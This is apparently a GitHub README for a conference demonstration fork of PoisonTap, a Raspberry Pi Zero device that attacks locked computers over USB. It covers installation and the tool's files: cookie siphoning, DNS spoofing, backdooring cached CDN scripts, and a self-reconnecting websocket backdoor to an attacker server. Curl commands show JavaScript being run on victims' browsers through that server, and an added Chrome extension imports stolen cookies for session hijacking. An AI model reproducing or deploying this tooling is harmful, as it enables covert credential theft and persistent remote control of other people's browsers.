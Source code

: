 # Demonstration of PoisonTap - FIC 2017

PoisonTap exploit created by Samy Kamkar
Chrome extension for PoisonTap Cookie created by Pandhack & drouarb

What we have done in addition to Samy kamkar work :
* Modified *pi_poisontap.js* to generate a file *cookies.json* with a corect json syntax
* Modified *backdoor.html* to permit the backdoor to reconnect itself automaticaly
* Developped a *chrome extension* to import siphoned cookies

# ChromeExtension : Installation

* Download Google Chrome
* tap ```bashchrome://extensions/``` in the url bar
* Active "Developer Mode"
* Click on Load unpacked extension & select our chrome_extension folder

# PoisonTap : Installation / File Breakdown

**This section is an extract of Samy Kambar poisontap repository, if you want to read the entirely explanation go to <a href="https://github.com/samyk/poisontap" target=_blank>https://github.com/samyk/poisontap</a>**

Note: If you find the device is NOT acting as an Ethernet controller automatically (older versions of Windows, for example), you can [change the VID and PID in pi_startup.sh](https://github.com/samyk/poisontap/issues/8#issuecomment-265818957)

```bash
# Instructions adjusted from https://gist.github.com/gbaman/50b6cca61dd1c3f88f41
sudo bash

# If Raspbian BEFORE 2016-05-10, then run next line:
BRANCH=next rpi-update

echo -e "\nauto usb0\nallow-hotplug usb0\niface usb0 inet static\n\taddress 1.0.0.1\n\tnetmask 0.0.0.0" >> /etc/network/interfaces
echo "dtoverlay=dwc2" >> /boot/config.txt
echo -e "dwc2\ng_ether" >> /etc/modules
sudo sed --in-place "/exit 0/d" /etc/rc.local
echo "/bin/sh /home/pi/poisontap/pi_startup.sh" >> /etc/rc.local
mkdir /home/pi/poisontap
chown -R pi /home/pi/poisontap
apt-get update && apt-get upgrade
apt-get -y install isc-dhcp-server dsniff screen nodejs
```

Place dhcpd.conf in /etc/dhcp/dhcpd.conf and the rest of the files in /home/pi/poisontap, then reboot to ensure everything is working.

There are a number of <a href="https://github.com/Pandhack/FIC_2017_PoisonTap" target=_blank>files in the repo</a>, which are used on different sides. The list:

* **backdoor.html** - Whenever a http://hostname/PoisonTap URL is hit to exfiltrate cookies, this file is what is returned as the force-cached content. It contains a backdoor that produces an outbound websocket to samy.pl:1337 (adjustable to any host/port) that remains opens waiting for commands from the server. This means when you load an iframe on a site, such as http://hostname/PoisonTap, this is the content that gets populated (even after PoisonTap is removed from the machine).
* **backend_server.js** - This is the Node.js server that you run on your Internet-accessible server. It is what the backdoor.html connects to (eg, samy.pl:1337). This is the same server you connect to send commands to your PoisonTapped minion machines, eg

```bash
# pop alert to victim
curl 'http://samy.pl:1337/exec?alert("muahahahaha")'
# to set a cookie on victim
curl 'http://samy.pl:1337/exec?document.cookie="key=value"'
# to force victim to load a url via ajax (note, jQuery is stored inside the backdoor)
curl 'http://samy.pl:1337/exec?$.get("http://192.168.0.1.ip.samy.pl/login",function(d)\{console.log(d)\})'
```
* **pi_poisontap.js** - This runs via Node.js on the Raspberry Pi Zero and is the HTTP server responsible for handling any HTTP requests intercepted by PoisonTap, storing siphoned cookies, and injecting the cached backdoors.
* **pi_startup.sh** - This runs upon startup on the Raspberry Pi Zero in order to set the device up to emulate an Ethernet-over-USB gadget, set up our evil DHCP server, allow traffic rerouting, DNS spoofing, and to launch pi_poisontap.js above. 
* **target_backdoor.js** - This file is prepended to any CDN-related Javascript files, thus backdooring them, e.g. Google CDN's jQuery URL.
* **target\_injected\_xhtmljs.html** - This is the code that gets injected into unintentional/background HTTP/AJAX requests on the victim's machine and spawns the entire attack. It is constructed in a way that it can be interpreted as HTML or as Javascript and still execute the same code. Additionally, the amazing HTML5 canvas is by the incredible <a href="http://codepen.io/ara_node/" target=_blank>Ara on CodePen</a> and was too amazing not to include. This is the graphical craziness that appears when the page gets taken over by PoisonTap.
* **poisontap.cookies.log** - This file is generated once the user's machine starts sending HTTP requests to PoisonTap and logs the cookie from the browser along with the associated URL/domain it belongs to.
* **cookies.json** - Like *poisontap.cookies.log* it is a cookies log file but with a correct json format. Don't forget to add "[" at the begining of the file and a "]" at the end before import the file in the chrome extension

